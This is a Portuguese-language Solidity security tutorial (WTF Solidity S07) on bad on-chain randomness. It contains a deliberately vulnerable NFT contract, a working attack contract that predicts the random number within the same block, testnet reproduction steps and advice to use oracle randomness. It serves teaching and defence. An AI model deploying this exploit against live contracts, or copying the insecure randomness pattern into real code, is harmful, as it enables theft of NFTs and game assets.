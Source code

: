 # WTF Solidity Contrato Seguro: S07. Má Sorteio

Recentemente, tenho revisitado o estudo do Solidity para consolidar detalhes e escrever um "WTF Solidity guia introdutório" para iniciantes (os especialistas em programação podem procurar outros tutoriais). Será atualizado semanalmente com 1-3 aulas.

Twitter: [@0xAA_Science](https://twitter.com/0xAA_Science) | [@WTFAcademy_](https://twitter.com/WTFAcademy_)

Comunidade: [Discord](https://discord.gg/5akcruXrsk) | [Grupo no WeChat](https://docs.google.com/forms/d/e/1FAIpQLSe4KGT8Sh6sJ7hedQRuIYirOoZK_85miz3dw7vA1-YjodgJ-A/viewform?usp=sf_link) | [Site Oficial da wtf.academy](https://wtf.academy)

Todo o código e tutoriais estão disponíveis no GitHub: [github.com/AmazingAng/WTF-Solidity](https://github.com/AmazingAng/WTF-Solidity)

---

Nesta aula, vamos falar sobre a vulnerabilidade de "Má Sorteio" em contratos inteligentes e métodos de prevenção. Essa vulnerabilidade é comum em projetos de NFT e GameFi, como Meebits, Loots, Wolf Game, entre outros.

## Números Pseudorandômicos

Muitas aplicações na Ethereum requerem o uso de números aleatórios, como para sortear `tokenId` de NFTs, abrir lootboxes, determinar resultados aleatórios em batalhas de GameFi, entre outros. No entanto, devido à transparência e determinismo dos dados na Ethereum, não existe um método para gerar números aleatórios como na maioria das outras linguagens de programação, como `random()`. Portanto, muitos projetos acabam utilizando métodos de geração de números pseudorandômicos na blockchain, como `blockhash()` e `keccak256()`.

Vulnerabilidade de Má Sorteio: Hackers podem calcular previamente os resultados desses números pseudorandômicos e manipulá-los conforme desejarem, como criar NFTs raros específicos em vez de sortear aleatoriamente. Para saber mais, consulte [WTF Solidity guia introdutório aula 39: Números Pseudorandômicos](./39_Random).

## Exemplo de Má Sorteio

Abaixo, vamos analisar um contrato de NFT com a vulnerabilidade de Má Sorteio: BadRandomness.sol.

```solidity
contract BadRandomness is ERC721 {
    uint256 totalSupply;

    // Construtor, inicializa o nome e o símbolo da coleção de NFTs
    constructor() ERC721("", ""){}

    // Função de cunhagem: um NFT só é cunhado se o luckyNumber for igual ao número aleatório
    function luckyMint(uint256 luckyNumber) external {
        uint256 randomNumber = uint256(keccak256(abi.encodePacked(blockhash(block.number - 1), block.timestamp))) % 100; // get bad random number
        require(randomNumber == luckyNumber, "Better luck next time!");

        _mint(msg.sender, totalSupply); // cunhar
        totalSupply++;
    }
}
```

Este contrato possui a função principal `luckyMint()`, onde o usuário deve inserir um número de `0-99`, que, se coincidir com o número pseudorandômico gerado na blockchain, permite cunhar um NFT da sorte. A vulnerabilidade está no fato de que o usuário pode prever com precisão o número aleatório gerado e cunhar o NFT desejado.

Agora, vamos criar um contrato de ataque `Attack.sol`.

```solidity
contract Attack {
    function attackMint(BadRandomness nftAddr) external {
        // Calcular previamente o número aleatório
        uint256 luckyNumber = uint256(
            keccak256(abi.encodePacked(blockhash(block.number - 1), block.timestamp))
        ) % 100;
        // Realizar o ataque usando o luckyNumber
        nftAddr.luckyMint(luckyNumber);
    }
}
```

A função de ataque `attackMint()` recebe o endereço do contrato `BadRandomness` como parâmetro. Nela, calculamos o número aleatório `luckyNumber` e o passamos como argumento para a função `luckyMint()` para realizar o ataque. Como `attackMint()` e `luckyMint()` são chamados no mesmo bloco, o `blockhash()` e o `block.timestamp` são os mesmos, gerando o mesmo número aleatório.

## Reprodução no Remix

Como o Remix com Remix VM não suporta a função `blockhash()`, é necessário implantar os contratos na testnet Ethereum para reproduzir o ataque.

1. Implantar o contrato `BadRandomness`.

2. Implantar o contrato `Attack`.

3. Passar o endereço do contrato `BadRandomness` como parâmetro para a função `attackMint()` do contrato `Attack` e executar o ataque.

4. Usar a função `balanceOf` do contrato `BadRandomness` para verificar o saldo de NFTs do contrato de ataque e confirmar o sucesso do ataque.

## Métodos de Prevenção

Normalmente, utilizamos números aleatórios gerados fora da blockchain por meio de projetos de oráculos, como o Chainlink VRF, para prevenir esse tipo de vulnerabilidade. Esses números aleatórios são gerados fora da blockchain e depois enviados para a mesma, garantindo que sejam imprevisíveis. Para saber mais, consulte [WTF Solidity guia introdutório aula 39: Números Pseudorandômicos](./39_Random).

## Conclusão

Nesta aula, abordamos a vulnerabilidade de Má Sorteio em contratos inteligentes e apresentamos um método simples de prevenção: utilizar números aleatórios gerados fora da blockchain por meio de projetos de oráculos. Projetos de NFT e GameFi devem evitar o uso de números pseudorandômicos na blockchain para sorteios, a fim de evitar possíveis ataques de hackers.


